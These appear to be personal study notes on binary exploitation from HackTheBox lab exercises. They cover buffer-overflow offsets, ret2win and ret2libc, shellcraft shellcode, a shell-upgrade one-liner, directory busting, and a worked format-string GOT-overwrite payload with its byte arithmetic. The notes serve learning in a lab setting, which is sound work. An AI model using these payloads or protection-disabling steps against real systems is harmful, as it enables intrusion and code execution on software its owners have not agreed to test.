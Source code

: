 ```yaml
---
title: "Binary Exploitation - By HTB"
tags:
  - hacking
  - hacking/htb 
programming-languagues:
created: 2022-06-30
---
```

## 00
- Check file vulnerabilities:
```bash
checksec --file <filename>
```

- Gets rid of Stack, NX and PIE protection (-m32 changes to 32bits):
```bash
gcc <filename>.c -o <filename> -fno-stack-protector -z execstack -no-pie -m32
```

## 01
GDB-Pwndbg:
- It breaks exactly where the breakpoint is.

To view a variable/condition you can use the code below. This would print the location of the result, so it is a pointer to a register that holds it.
```bash
x $ebp - 0xc
```

You can then change that register like this:
```bash
set *0xffffceac = 1
```

## 02
If file type is **LSB** then reverse order, for example _dead_ would be _daed_. To get it:

```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
```

Send to a file and run with it: (xD)
```bash
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./runMeImaFile < payload
```

## 03
Radare2:
```bash
aa
afl
```

We can use `cyclic 100` in `gdb-pwndbg` to generate a pattern, then run that into the program. We then get the characters in the register (eg `eip`) and run `cyclic -l <string>`, so for example: 
```bash
cyclic -l haaa
```

It will return how many bytes we need to overflow.

If the function we want to access is in `0x08049182` for example, we can do:
```bash
python2 -c 'print "A" * 28 + "\x82\x91\x04\x08"' > payload
```

```bash
ropper --file ret2win_params --search "pop rsi"
```

## 04
We check the `cycle`, then figure out how much to overflow. We find the `return` address (what function returns), set a breakpoint to it then run the program with the payload generated.

deadbeef = `\xef\xbe\xad\xde`

When a function is called, the return pointer is pushed to the stack, so it knows where to return to, followed by any function parameters.

With 64bits, we have to populate the registers not just send the parameters, for example `rdi` and `rsi`. We also when running `cyclic` take the values from the `RSP`, for example the first four.

## 05
Getting a shell:
```bash
shellcraft -l
shellcraft i386.linux.sh

# to get it in assembly:
shellcraft i386.linux.sh -f a
```

To get a reverse shell:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
# control + z
stty raw -echo; fg;
export TERM=xterm
```

## 06
This file is safer as you can see with `checksec`. Therefore, we need to execute `bin/sh` from LibC.

To find libC we can run `ldd <filename>`.

To turn off randomiser:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

To get libC address:
```bash
ldd <filename>
```

To find the offset from base libC to system:
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```

To find offset to `/bin/sh` for example:
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/bash"
```

## 08
- https://guyinatuxedo.github.io/5.1-mitigation_aslr_pie/index.html
- https://github.com/shellphish/how2heap
- https://ir0nstone.gitbook.io/notes/types/stack

- Can use `piebase` in gdb-pwndbg to figure out the offset. For example, `breakrva <a function for example 0x11f0` sets a breakpoint in that function no matter if the program restarts as it knows the offset from the top of the run.

To find **libc** in a remote server: https://libc.blukat.me/ by using the leaked address, for example puts.

We can find the `GOT.printf` address in Ghidra, inside `.got.plt`. We can then write something at it.

### Tutorial
- Need to overwrite 0x0804c00c (`GOT.printf`) with 0xf7dff040 (`LIBC.system`).

- It means writing 0xf7df (63455) @ 0x0804c00c + 2 = 0x0804c00e (high order) and 0xf040 (61504) @ 0x0804c00c (low order).

- Now, we have to figure out the value to set for the padding. Here is the formula :

```
[The value we want] - [The bytes alredy wrote] = [The value to set].            
```                                                                                  

- Let’s start with the low order bytes :                                        

It’ll will be 61504 - 8 = 61496, because we already wrote 8 bytes (the two 4 bytes addresses).

- Then, the high order bytes:                                                  

It’ll will be 63455 - 61504 = 1951, because we already wrote 61504 bytes (the two 4 bytes addresses and 61496 bytes from the previous writing).                                                     

- Now we can construct the exploit (note our write offset is `%4` so we want `[%4,%5]` as offsets instead of `[%7,%8]`):

```
      \x0c\xc0\x04\x08 or 0x0804c00c (in reverse order) points to the low order bytes.    
      \x0e\xc0\x04\x08 or 0x0804c00e (in reverse order) points to the high order bytes.
      %61496x will write 61496 bytes on the standard output.                                              
      %4$hn will write 8 + 61496 = 61504 bytes (or 0xf040) at the first address specified (0x0804c00c).
      %1951x will write 1951 bytes on the standard output.                                                  
      %5$hn will write 8 + 61496 + 1951 = 63455 (or 0xf7df) at the second address specified (0x0804c00e).
```                                                                                            

```python
  python2 -c 'print("\x0c\xc0\x04\x08\x0e\xc0\x04\x08%61496x%4$hn%1951x%5$hn")' > payload
```                                                                                      

  * Based on excellent blogpost: https://axcheron.github.io/exploit-101-format-strings/

```bash
(cat payload; cat) | ./got_overwrite
```

## HTB - Explosion (Starting Point)
- Info on ports [here](https://www.speedguide.net/ports.php).

## HTB - Preignition (Starting Point)
- Dir busting:
```bash
sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u {ip}
```

## HTB - Bike (Starting Point)
Hacktricks guide ([here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection))

### Useful tools
- Ghidra
- GDB
- Radare2
- Ropper
- GDB-PwnDBG
- LTrace